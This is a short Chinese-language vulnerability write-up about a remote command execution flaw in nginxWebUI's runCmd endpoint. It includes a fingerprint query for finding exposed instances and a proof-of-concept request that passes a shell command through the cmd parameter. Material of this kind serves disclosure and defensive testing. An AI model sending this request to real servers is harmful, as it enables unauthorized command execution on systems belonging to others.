


# nginxWebUI runCmd 远程命令执行漏洞

## 漏洞描述

nginxWebUI runCmd 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取到服务器权限，执行任意命令

## 漏洞影响

nginxWebUI

## 网络测绘

```
title="nginxwebui"
```

## 漏洞复现

登录页面



验证请求包

```
/AdminPage/conf/runCmd?cmd=id
```

